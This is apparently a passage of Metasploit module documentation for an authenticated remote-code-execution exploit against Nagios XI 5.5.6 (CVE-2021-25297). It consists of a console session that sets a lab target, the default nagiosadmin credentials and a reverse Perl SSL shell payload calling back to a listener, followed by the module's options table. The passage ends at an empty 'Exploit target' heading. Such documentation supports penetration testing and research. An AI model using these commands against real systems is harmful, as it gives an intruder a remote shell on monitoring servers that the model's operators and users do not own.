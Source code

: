 ### CentOS7 Running NagiosXI 5.5.6 (Official OVA) - CVE-2021-25297
```
msf > use exploit/linux/http/nagios_xi_configwizards_authenticated_rce
[*] Using configured payload cmd/unix/reverse_perl_ssl
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RHOSTS 192.168.104.18
RHOSTS => 192.168.104.18
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RPORT 443
RPORT => 443
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set PASSWORD nagiosadmin
PASSWORD => nagiosadmin
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set TARGET_CVE CVE-2021-25297
TARGET_CVE => CVE-2021-25297
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LHOST 192.168.104.2
LHOST => 192.168.104.2
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LPORT 8443
LPORT => 8443
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_configwizards_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so. This includes signin
                                              g the license agreement.
   PASSWORD        nagiosadmin      no        Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          192.168.104.18   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasp
                                              loit
   RPORT           443              yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local m
                                              achine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   TARGET_CVE      CVE-2021-25297   yes       CVE to exploit (CVE-2021-25296, CVE-2021-25297, or CVE-2021-25298)
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      no        Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl_ssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.104.2    yes       The listen address (an interface may be specified)
   LPORT  8443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
```